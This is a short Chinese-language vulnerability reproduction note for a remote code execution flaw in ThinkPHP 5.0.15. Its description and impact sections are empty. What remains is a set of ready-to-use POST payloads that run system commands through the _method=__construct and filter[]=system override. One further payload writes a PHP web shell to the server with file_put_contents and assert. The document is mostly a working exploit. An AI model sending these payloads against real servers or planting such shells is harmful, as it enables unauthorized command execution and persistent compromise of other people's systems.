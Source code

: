 Thinkphp 5.0.15
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    post
    
    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST
    
    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 
    
    _method=__construct&filter[]=system&method=GET
